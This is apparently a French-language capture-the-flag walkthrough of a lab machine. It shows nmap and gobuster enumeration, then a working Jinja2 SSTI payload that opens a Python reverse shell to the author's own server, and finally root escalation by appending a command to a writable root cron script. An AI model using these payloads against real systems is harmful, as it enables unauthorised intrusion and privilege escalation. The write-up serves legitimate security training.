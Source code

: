 # Unknow Box
## <b>Phase d'énumération :</b>

IP : <b> 167.99.244.212</b> (change à chaque reboot)


N'ayant qu'une IP et sachant evidemment au préalable qu'il n'y a pas de blueteam en face, mon premier reflexe est un scan nmap.


<b>Commande :</b> sudo nmap -A \<ip de la machine\>

<b>Output :</b> 
```
PORT     STATE    SERVICE    VERSION
21/tcp   open     tcpwrapped
22/tcp   open     ssh        OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 6b:04:b8:8b:b6:8b:2b:10:41:16:0a:ab:18:84:67:68 (RSA)
|   256 9e:54:01:dc:8b:41:bb:9a:3e:6e:c1:3d:b2:ae:f7:71 (ECDSA)
|_  256 e8:50:86:5c:8b:ee:13:11:7e:e2:55:3d:7d:8a:ea:f1 (ED25519)
80/tcp   open     http       Werkzeug httpd 1.0.1 (Python 2.7.17)
|_http-server-header: Werkzeug/1.0.1 Python/2.7.17
|_http-title: OhNoMySite!
82/tcp   open     tcpwrapped
84/tcp   open     tcpwrapped
443/tcp  open     tcpwrapped
514/tcp  filtered shell
554/tcp  open     rtsp?
1723/tcp open     tcpwrapped
|_pptp-version: ERROR: Script execution failed (use -d to debug)
1971/tcp open     tcpwrapped
5060/tcp open     sip?
9999/tcp open     http       Werkzeug httpd 1.0.1 (Python 2.7.17)
|_http-title: Site doesn't have a title (text/html; charset=utf-8).
```
Très bien, ça nous fait de la matière à tester.

Allons voir le site web sur le port 80. Je lance en parallèle un GOBUSTER.
<b>Commande :</b> 

```gobuster -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt dir --url \<IP>```
<b>Output :</b>

```/dev (status : 200)```
Dans ce directory, la page nous dit de lui donner un paramètre URL, essayons.
<b>URL :</b> http://ip/dev?url=test
<b>Output :</b> ```
Checking url : test!
Service is not working yet ....```

Tiens, on passe un argument dans l'url et ce même arg est print sur la page, il y a peut être une injection à tester, non ?

Testons celui ci : <b>?url={{7*7}}</b>, qui permet de tester la présence d'une SSTI (Server Side Template Injection) sur certains moteur.

Bingo, l'output est 49 ! Il y a donc bien une vulnérabilité.

Testons désormais : ?url={{7*'7'}}. L'ouput est alors : 7777777, ce qui nous indique que le moteur utilisé est jinja2 et qu'il est vulnérable.
(cf https://portswigger.net/web-security/server-side-template-injection).

Très bien, tentons d'obtenir un reverse shell avec notre petite SSTI, pour cela, allons voir ce que nous propose payloadAllTheThings.
Ne voulant pas ouvrir les ports de ma box, j'ai utilisé mon VPS pour recevoir le shell, mais d'autres manières était possibles, bien que moins pratiques selon moi.

<b>Payload utilisé :</b>

<b>```{% for x in ().__class__.__base__.__subclasses__() %}{% if "warning" in x.__name__ %}{{x()._module.__builtins__['__import__']('os').popen("python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"ip\",port));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(\"/bin/sh\");'").read().zfill(417)}}{%endif%}{% endfor %}```</b>

Désormais, on a notre shell sur le port indiqué :p. Naviguons jusqu'au /home de l'user que nous avons, cad OhNoMySite et on peut cat le user !
User : BC{e92d763a1c3689605785c94189db8eba}

## <b>Privilege Escalation :</b>

Sur ma liste imaginaire des choses à toujours vérifier, il y a crontab.

<b>Commande :</b> ```Cat /etc/crontab```

<b>Output (pertinent) :</b> 
```* * * * *       root    /opt/cleaning/clean.sh```

Les étoiles nous indiquent que ce script est toujours actif et nous savons aussi qu'il tourne sur l'utilisateur root.
On ne va pas s'embêter, pour avoir le root.txt, on va tout simplement tenter de le copier dans notre /home :).

<b>Payload :</b>  ```echo "cp /root/root.txt /home/OhNoMySite/root.txt" >>  /opt/cleaning/clean.sh```

Et le tour est joué, il n'y a plus qu'à cat root.txt.
(Bien entendu, dans le cadre d'une post-exploitation, cette façon de faire n'est pas très pratique, l'ideal serait de se renvoyer un shell via crontab ou de récupérer les accès ssh de l'user root si il y en a).

ROOT  : BC{15caf8a4b9d3cb5453dfa11810f0233a}
